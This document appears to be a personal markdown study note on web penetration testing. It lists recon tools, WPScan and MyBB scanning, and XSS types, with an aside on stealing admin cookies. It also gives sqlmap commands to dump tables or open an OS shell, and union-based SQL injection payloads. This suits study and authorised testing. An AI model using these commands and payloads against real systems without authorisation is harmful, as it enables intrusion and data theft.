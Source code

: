 # Web

**OWASP Testing guide**

[Testing guide](https://owasp.org/www-project-web-security-testing-guide/)

[Testing Checklist](http://github.com/0xRadi/OWASP-Web-Checklist)

## Passive

**Whois**
The Name Provider service (GoDaddy, NameCheap) have DNSSec feature that prevent leak the infomation of the target from trace with `whois`

```sh
host <HOST>
whatweb <HOST>
whois <HOST>
whois <IP>

dnsrecon -d <HOST>

wafw00f -l
wafw00f <HOST> -a

sublist3r -d <HOST>
theHarvester -d <HOST>
theHarvester -d <HOST> -b all
```

**Nikto**: Web server scanning
- `nikto --help`
- `nikto -h http://<target_ip>` Basic scan
    - `-o nikto html -Format htm` Html output
    
**Web recon with OWASP Amass**:
- [github repo](https://github.com/owasp-amass/amass)
- Simple enumeration: `amass enum -d zonetransfer.me`
    - `-passive` Passive enum
    - `amass enum -d zonetransfer.me -src -ip -brute -dir /path/to/output` Brute force subdomain
- `amass intel -d zonetransfer.me -active -src -ip -dir /path/to/outp ut`
    - `-whois` Using whois utility
- `amass viz -dir /path/to/output -d3` Visualize format

## Exploit Reflected XSS Vulnerbility in WordPress

WP using plugin to implement feature and stuff. Plugin may have vulns, important to check plugins of Wordpress

[WPScan](https://wpscan.com/)
- `sudo apt install wpscan`
- `wpscan --url <target_url>` - Basic enumeration
    - `--enumeration p --plugins-detection aggressive` - Passive enumeration and aggressive plugin detection.
    - `--api-token <ur_token>` Insert the api token to be able to vulns scan

Example:
- WordPress Plugin Relevanssi 4.0.4 have [vuln](https://www.exploit-db.com/exploits/44366) ~ Reflected XSS
- Need user admin to click on the malicous link that we create
- We can level up the vulns script by steal the cookie of admin user and use that for gain access to the target.

## MyBB Stored XSS

[MyBBScan](https://github.com/0xB9/MyBBscan)

Scanner for plugin of myBB for vulns, run scan and check if any vulns.
- Example: `Download` plugin, copy payload and exploit the plugin
  - `0day.today` ~ 30121

## DOM XSS

Dom ~ Dynamic change data of element in webapp

Typically attacker make change in url, then ship it to victim, victim open url and the DOM XSS will be execute.

## SQLi

Auto scan with ZAP

Get the request that contain SQL, and send it to `FUZZ`
- Select where you want to inject the payload, add the FUZZ
- Run and check the request have a `reflected`

![Type of SQLi](./Assets/image_5.png)

In-band SQL injections - The attacker use the same communication channel to send and recivce the results
- Example: SQLi on login page - The error return on the login page as well

Error-base: Relies on intentionally causing database errors and using the error messages returned by the database to extract information of gain access.

[SQLMAP](https://sqlmap.org/)
- `sudo apt-get install sqlmap`
- `sqlmap -u "http://demo.ine.local/dosearch.php" --data "<data_exploit>" -p <parameter> --method POST`
- Alternitive, Save the request from burpsuite and run.
    - `sqlmap -r <request_file> -p <parameter> --technique=E`
    - `--technique=E` Error base.
    - For bug-bounty and pentest - set the risk level and provided level is 1
- If sqlmap identified the vulns, further attack can be perform
    - `--current-db` get current db name
    - `-D <database>` Select the db -> `-D <database> --tables` -> List table
    - `-D <database> -T <tables> --dump` Dump the table
    - `--os-shell` If shell available, open shell

Union-based: Using Union operation, the attacker inject additional `select` statement through the vulnerble input to retrive the data.

**Example**:
- If search text have vuln, and exploit is `'or 1 = 1 --`
- Base on response of the web, to see the table have how many column
    - `'or 1 = 1 union select 1,2,3,4,5` Check until the page responsed.
